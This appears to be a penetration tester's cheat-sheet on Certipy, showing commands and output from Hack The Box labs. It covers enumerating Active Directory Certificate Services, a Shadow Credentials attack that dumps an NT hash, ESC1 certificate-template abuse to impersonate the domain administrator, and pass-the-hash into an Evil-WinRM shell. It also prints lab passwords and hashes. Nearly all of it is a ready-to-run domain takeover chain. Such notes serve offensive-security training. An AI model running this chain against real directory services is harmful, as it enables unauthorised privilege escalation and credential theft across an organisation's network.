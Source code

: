 Download  [Certipy](https://github.com/ly4k/Certipy) 

```bash
pip install certipy-ad
```

## # `ADCS` -

- Check for Active Directory Certificate Services :

```bash
certipy find
```

It will return all sorts of information about the domain and how Active Directory Certificate Services (ADCS) is configured. It doesn’t check `/tmp/krb5cc` by default, so you’ll need to set that environment variable to be able to use it :

```bash
napster@kali$ KRB5CCNAME=/tmp/krb5cc_1000 certipy find -username m.lovegod@absolute.htb -k -target dc.absolute.htb 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'absolute-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'absolute-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'absolute-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'absolute-DC-CA'
[*] Saved BloodHound data to '20230523213024_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230523213024_Certipy.txt'
[*] Saved JSON output to '20230523213024_Certipy.json'
```

The above result is a good sign that ADCS is installed.

## # `Shadow Credential` -

The “**Shadow Credentia**l” technique involves manipulating the user’s `msDS-KeyCredentialLink` attribute, which binds a credential to their account that you can then use to authenticate. This technique is much less disruptive than just changing the user’s password. [This post from Spector Ops](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) has a ton of good detail.

This technique requires the following:

- At least one Windows Server 2016 Domain Controller.
- A digital certificate for Server Authentication installed on the Domain Controller.
- Windows Server 2016 Functional Level in Active Directory.
- ==Compromise an account with the delegated rights to write to the msDS-KeyCredentialLink== attribute of the target object.

Adding Shadow Credential :

`certipy shadow auto` will add the shadow credential to the winrm_user user :

```bash
napster@hacky$ KRB5CCNAME=/tmp/krb5cc_1000 certipy shadow auto -username m.lovegod@absolute.htb -account winrm_user -k -target dc.absolute.htb 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '2608415b-4088-a5fd-bc55-20c685887995'
[*] Adding Key Credential with device ID '2608415b-4088-a5fd-bc55-20c685887995' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '2608415b-4088-a5fd-bc55-20c685887995' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Using principal: winrm_user@absolute.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```

The above has created a credential and given both a NT hash and saved a ticket in `winrm_user.ccache` .

[m.lovegod had Generic Write on winrm_user which allowed us to write to the msDS-KeyCredentialLink attribute of the winrm_user and get shadow Credential]

## # `Identify Vulnerable Template` -

It has a `find` command that will identify the vulnerable template :

```bash
napster@hacky$ certipy find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
...[snip]...
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms 
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

The danger here is that `sequel\Domain Users` has Enrollment Rights for the certificate.

And `req` allows you to get the `.pfx` certificate :

```bash
oxdf@hacky$ certipy req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

The `auth` command will take that certificate (`administrator.pfx`) and get the hash :

```bash
oxdf@hacky$ certipy auth -pfx administrator.pfx 
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

With the NTLM hash for administrator, You can connect over Evil-WinRM :

```bash
napster@hacky$ evil-winrm -i 10.10.11.202 -u administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

